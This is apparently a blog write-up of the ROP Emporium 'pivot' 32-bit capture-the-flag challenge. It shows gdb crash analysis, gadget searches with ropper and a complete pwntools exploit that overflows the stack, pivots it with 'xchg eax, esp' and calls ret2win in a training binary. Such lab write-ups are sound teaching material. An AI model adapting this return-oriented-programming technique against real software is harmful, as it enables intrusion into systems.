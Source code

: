 ```yaml
---
layout: post
title: ropemporium - pivot 32bit
---
```


## Summary
Using a new gadget to pivot the stack into a given location where an address is stored. The address is pointing to a function in a library called `libpivot32.so`.

## Description
_There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location._

## Getting started
To get started I ran the executable normally:
```
$ ./pivot32
pivot by ROP Emporium
32bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0xf7db1f10
Send your second chain now and it will land there
> abc
Now kindly send your stack smash
> abc

Exiting
```
It seems that we already get an address we can pivot to.
Because I need to give two separate inputs I'm gonna be using `pwntools`' `process` functionality to deliver the payloads.
To get the padding I used `pwntools` to generate a string pattern:
```python
>>> from pwn import *
>>> cyclic(50)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama'
>>> 
```
I ran the program from using `gdb`:
```
$ gdb ./pivot32 -q
Reading symbols from ./pivot32...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: /home/qh/CTF/ropemporium/pivot/32/pivot32
pivot by ROP Emporium
32bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0xf7db1f10
Send your second chain now and it will land there
> AAAA
Now kindly send your stack smash
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd230 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama\n")
EBX: 0x0
ECX: 0xf7f8e89c --> 0x0
EDX: 0xffffd230 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama\n")
ESI: 0xf7f8d000 --> 0x1d9d6c
EDI: 0xf7f8d000 --> 0x1d9d6c
EBP: 0x6161616b ('kaaa')
ESP: 0xffffd260 --> 0xa616d ('ma\n')
EIP: 0x6161616c ('laaa')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6161616c
[------------------------------------stack-------------------------------------]
0000| 0xffffd260 --> 0xa616d ('ma\n')
0004| 0xffffd264 --> 0x0
0008| 0xffffd268 --> 0x2
0012| 0xffffd26c --> 0x0
0016| 0xffffd270 --> 0x1
0020| 0xffffd274 --> 0xffffd334 --> 0xffffd4c0 ("/home/qh/CTF/ropemporium/pivot/32/pivot32")
0024| 0xffffd278 --> 0xf7db1f10 ("AAAA\n")
0028| 0xffffd27c --> 0xf6db2010 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6161616c in ?? ()
gdb-peda$
```
The value of the instruction pointer was `0x6161616c` or `laaa`.
using `pwntools` again I found the correct padding size that I needed.
```
>>> len(fit({'laaa':''}))
44
```
Now I had to get the address of `ret2win`.
I first got the base address of `libpivot32`:
```
$ ldd ./pivot32
        linux-gate.so.1 (0xf7fd2000)
        libpivot32.so => ./libpivot32.so (0xf7fca000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7db3000)
        /lib/ld-linux.so.2 (0xf7fd4000)
```
So the base address is `0xf7fca000`, great.
Then I got the offset of `ret2win`:
```
$ readelf -s libpivot32.so
                                                  
Symbol table '.dynsym' contains 26 entries:       
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_deregisterTMCloneTab
     2: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)
     3: 00000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@GLIBC_2.1.3 (3)
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND system@GLIBC_2.0 (2)
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND exit@GLIBC_2.0 (2)
     7: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _Jv_RegisterClasses
     8: 00000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
     9: 00000770    43 FUNC    GLOBAL DEFAULT   12 foothold_function
    10: 0000099c     0 FUNC    GLOBAL DEFAULT   13 _fini
    11: 000005c0     0 FUNC    GLOBAL DEFAULT    9 _init
    12: 0000201c     0 NOTYPE  GLOBAL DEFAULT   24 __bss_start
    13: 00002020     0 NOTYPE  GLOBAL DEFAULT   24 _end
    14: 00000939    46 FUNC    GLOBAL DEFAULT   12 void_function_10
    15: 0000201c     0 NOTYPE  GLOBAL DEFAULT   23 _edata
    16: 0000079b    46 FUNC    GLOBAL DEFAULT   12 void_function_01
    17: 00000967    46 FUNC    GLOBAL DEFAULT   12 ret2win
```
The offset was `967`, so the address of `ret2win` would be `0xf7fca967`.

## Finding useful gadgets
All that was left before creating a ropchain was to find ropgadgets.
I used `ropper` to get the gadgets:
```
$ ropper --file pivot32 --console
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(pivot32/ELF/x86)> stack_pivot



Gadgets
=======


0x0804889b: add esp, 0x10; nop; leave; ret; 
0x08048925: add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret; 
0x0804856e: add esp, 8; pop ebx; ret; 
0x0804856a: ret 0; 
0x080486be: ret 0xeac1; 
0x08048a4c: ret 0xfffd; 
0x080488c2: xchg eax, esp; ret;
```
`0x000008c2: xchg eax, esp; ret;` looks like a good gadget to pivot the stack.
Now a `pop eax` gadget:
```
(pivot32/ELF/x86)> search pop eax
[INFO] Searching for gadgets: pop eax

[INFO] File: pivot32
0x080488c0: pop eax; ret;
```

## Creating a ropchain
Now that I had every piece it was time to put everything together and make a ropchain. 
First I need to put the address of `ret2win` into the first input.
Then to pop the address to pivot to into `eax`.
After that I need to call the pivot gadget.

## Creating the exploit
The exploit for this challenge should be relatively small.
I came up with the following exploit:
```python
from pwn import *

p = process('./pivot32')
ret2win_offset = 0x967
lib_base = 0xf7fca000
pivot_addr = p32(0xf7db1f10)
pop_eax = p32(0x080488c0) #pop eax; ret;
xchg = p32(0x080488c2) # xchg eax, esp; ret;
padding = 'A'*44

#first input
p.recvuntil('> ')
payload = p32(lib_base + ret2win_offset)
p.sendline(payload)

#second input
p.recvuntil('> ')
payload = padding
payload += pop_eax
payload += pivot_addr
payload += xchg
p.sendline(payload)
log.success('flag: {}'.format(p.recv()))
```
First I defined values that I will be using.
Then I called `p.recvuntil('> ')` to get all output from the executable until `> `.
Then I send the address of ret2win into the pivot location using the first input.
After that I called `p.recvuntil('> ')` again.
Then it finally came to the ropchain that I came up with.
First I add the padding, then the address of the `pop eax; ret;` gadget.
The address to pivot to came after that as well as the `xchg eax, esp; ret;` gadget address.
Upon sending the ropchain as the second input the flag will be send as the output of the executable. Which is formatted by the `log.success()` function from `pwntools`.

## Running the exploit
Now it was time I tested my exploit.
```
$ python exploit.py 
[+] Starting local process './pivot32': pid 49816
[+] flag: ROPE{a_placeholder_32byte_flag!}
[*] Process './pivot32' stopped with exit code 0 (pid 49816)
```
Success!